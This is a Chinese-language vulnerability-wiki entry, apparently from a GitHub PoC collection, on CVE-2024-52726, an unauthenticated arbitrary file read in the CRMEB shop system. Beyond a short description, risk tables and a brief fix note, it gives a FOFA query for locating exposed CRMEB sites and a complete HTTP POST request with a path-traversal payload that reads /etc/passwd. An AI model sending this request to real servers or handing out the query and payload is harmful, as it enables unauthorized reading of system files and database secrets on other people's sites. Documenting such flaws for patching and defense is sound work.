

#  CRMEB 任意文件读取漏洞（CVE-2024-52726

# 漏洞描述

CRMEB开源商城系统 存在任意文件读取漏洞，未授权的攻击者可获取数据库敏感信息。

# 影响版本

CRMEB开源商城

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="/wap/first/zsff/iconfont/iconfont.css"||body="CRMEB"

POC/EXP：

```
POST /adminapi/setting/config/save_basics HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Authori-zation: 
Cookie: cb_lang=zh-cn;
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Content-Type: application/json;charset=utf-8
Content-Length: 72
 
{"weixin_ckeck_file":"../../../../../../../../etc/passwd"}
```




# 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
